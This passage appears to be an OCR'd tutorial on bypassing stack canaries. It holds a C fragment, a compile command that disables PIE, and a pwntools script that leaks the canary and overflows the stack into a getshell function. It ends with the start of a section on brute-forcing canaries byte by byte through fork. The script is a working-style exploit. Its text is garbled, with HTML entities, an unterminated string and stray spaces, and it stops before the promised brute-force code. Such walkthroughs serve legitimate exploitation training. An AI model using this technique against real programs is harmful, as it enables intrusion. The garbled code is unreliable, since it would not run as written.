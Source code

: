 ```C
}
int main(void) {
    init();
    puts("Hello Hacker!");
    vuln ();
    return 0;
}

```

Compile as 32bit program and disable PIE protection (NX, ASLR and Canary protection are invoked by default)

```bash
$ gcc -m32 -no-pie canary.c -o canary 
```

First print out the 4-digit Canary by overwriting the last `\x00` byte of Canary
After that, calculate the offset, fill Canary into the corresponding overflow position, and implement Ret into the getshell function.


```python
#!/usr/bin/env python
from pwn import *
context.binary = 'ex2'
#context.log_level = 'debug'
io = process (&#39;./ ex2&#39;)
get_shell = ELF("./ex2").sym["getshell"]
io.recvuntil (&quot;Hello Hacker!
# leak Canary
payload = "A"*100
io.sendline(payload)
io.recvuntil ( &quot;A&quot; * 100)
Canary = u32(io.recv(4))-0xa
log.info("Canary:"+hex(Canary))
# Bypass Canary
payload = "\x90"*100+p32(Canary)+"\x90"*12+p32(get_shell)
io.send(payload)
io.recv ()
io.interactive ()
```

### one-by-one crack Canary

For Canary, although the Canary is different each time the same process restarts (the same as GS, GS is restarted), but the Canary of each thread in the same process is identical.
Also, there is a class that opens the child process interaction through the fork function, because the fork function directly copies the memory of the parent process, so the Canary of each child process created is the same. We can use this feature to completely blast Canary byte by byte.
In the famous offset2libc bypassing all protected linux64bit articles, the author is using this way to blast the Canary:
This is the Python code for blasting:
